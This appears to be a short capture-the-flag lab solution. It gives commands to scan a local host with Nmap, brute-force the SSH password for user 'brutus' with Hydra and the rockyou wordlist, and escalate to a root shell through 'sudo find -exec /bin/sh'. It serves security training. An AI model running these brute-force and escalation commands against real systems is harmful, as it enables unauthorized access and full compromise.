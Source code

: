 ## Engagement steps
1. Port Scanning with Nmap and find ssh on 22
2. Hydra SSH Brute force password using rockyou.txt
3. Privilege escalation with `sudo find` to root


## Solution
Nmap port scan:
```sh
sudo nmap -sS -sV -p- 127.0.0.1 -vv
```

Crack password:
```sh
hydra -l brutus -P /usr/share/wordlists/rockyou.txt 127.0.0.1 ssh
```

Privileges escalation:
```sh
sudo find . -exec /bin/sh \; -quit
```
